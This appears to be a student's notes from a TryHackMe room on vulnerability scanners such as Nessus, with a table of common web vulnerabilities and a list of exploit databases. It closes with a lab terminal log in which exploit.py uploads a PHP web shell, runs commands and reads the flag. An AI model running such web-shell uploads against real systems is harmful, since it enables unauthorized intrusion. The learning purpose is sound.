 # Nessus

- Nessus has a community version and an enterprise version

## Advantages
- Automated scans are easy to repeat and results can be shared within a team with ease.
- These scanners are quick and can test numerous applications efficiently.
- Open-Source solutions exist
- Automated scanners cover a wide range of vulns which might other wise be very difficult to cover manually.

## Dis-Advantages
- People can often become reliant on these tools
- These are extremely loud and noisy and will be difficult to by-pass the firewalls
- Open-source licenses are often basic and you need to purchase licenses if you need enterprise grade features
- They often do not find every vuln on an app

|Vulnerability|Description|
|-|-|
|Security Mis-Configurations|these kind of vuns occur due to developer oversight. for example:- exposing server information in messages between app & attacker|
|Broken Access Control|this vul occurs when the attacker is able to access parts of the app which is he is not supposed to access|
|Insecure-Deserialization|This is the insecure processing of data that is sent across app. An attacker passes on malicious code waiting for it to be executed.|
|Injection|when the attacker is able to input malicious data into the app. Often this vuln becomes severe if there is no proper sanitization|

## Additional resources to exploit vulns

- Rapid7 - gives you metasploit related commands for executing & using exploits
- Github - submission of PoC's for exploits
- SearchSploit - offline vuln database


## Example

```
┌──(kali㉿kali)-[~/Documents/THM/rooms/vulnversity]
└─$ python3 exploit.py http://10.10.149.112
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.149.112/bootstrap/img/jzuKHm3xb6.php
> Example command usage: http://10.10.149.112/bootstrap/img/jzuKHm3xb6.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ ls
OyWjgNLIbq.php
ZE8GDZjnfs.php
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
flag.txt
img1.jpg
img2.jpg
img3.jpg
jzuKHm3xb6.php
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
pro_asp4.jpg
pro_js.jpg
unnamed.png
web_app_dev.jpg

RCE $ cat flag.txt
THM{BOOK_KEEPING}```
